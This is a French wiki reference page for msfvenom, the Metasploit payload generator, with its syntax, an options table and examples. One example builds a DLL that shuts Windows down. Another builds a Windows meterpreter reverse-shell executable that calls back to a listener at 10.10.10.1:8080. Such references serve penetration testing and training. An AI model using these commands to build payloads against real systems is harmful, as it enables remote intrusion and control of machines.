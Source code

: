 ```yaml
---
title: msfvenom
description: Permet de générer des charges utiles (payloads) de toutes sortes
published: true
date: 2024-07-16T17:06:52.257Z
tags: outil, linux
editor: markdown
dateCreated: 2024-07-15T20:08:55.994Z
---
```


# Introduction

msfvenom est un outil de la suite Metasploit, cet outil permet de générer des charges utiles (payloads) de toutes sortes.

> La suite Metasploit est disponible au téléchargement ici: https://github.com/rapid7/metasploit-framework
> {.is-info}

# Syntaxe

`msfvenom -p [type de payload] [variable=valeur] -f [format] -o [fichier de sortie] [options]`

# Options

| Option                            | Description                                                                                                         |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| `-l [type]`                       | Liste tous les modules disponibles pour le type indiqué (paylods,encoders,nops,platforms,archs,encrypt,formats,all) |
| `-p [type de paylaod]`            | Spécifie le payload à utiliser                                                                                      |
| `--list-options`                  | Affiche les options disponibles avec le payload sélectionné                                                         |
| `-f [format]`                     | Spécifie le format à utiliser                                                                                       |
| `-e [encodeur]`                   | Spécifie l'encodeur à utiliser                                                                                      |
| `--service-name [nom]`            | Spécifie le nom du service lorsqu'un binaire de service est généré                                                  |
| `--smallest [nom]`                | Génere le payload le plus petit possible avec tous les encodeurs disponibles                                        |
| `--encrypt [type de chiffrement]` | Spécifie le type de chiffrement utilisé                                                                             |
| `--encrypt-key [clé]`             | Clé à utiliser avec le chiffrement                                                                                  |
| `-a [architecture]`               | Spécifie l'architecture souhaitée pour la génération du payload et l'encodage                                       |
| `-o [sortie]`                     | Sauvegarde le payload vers un fichier                                                                               |

# Exemples

Liste les payloads disponibles

`msfvenom -l payloads`

Utilise le payload windows/x64/exec avec comme argument cmd='shutdown /s', génere un fichier dll et l'exporte vers shutdown.dll

`msfvenom -p windows/x64/exec cmd='shutdown /s' -f dll -o shutdown.dll`

Utilise le payload windows/meterpreter/reverse_tcp avec comme argument LHOST=10.10.10.1 et LPORT=8080, génere un fichier exe et l'exporte vers reverse.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=8080 -f exe -o reverse.exe`
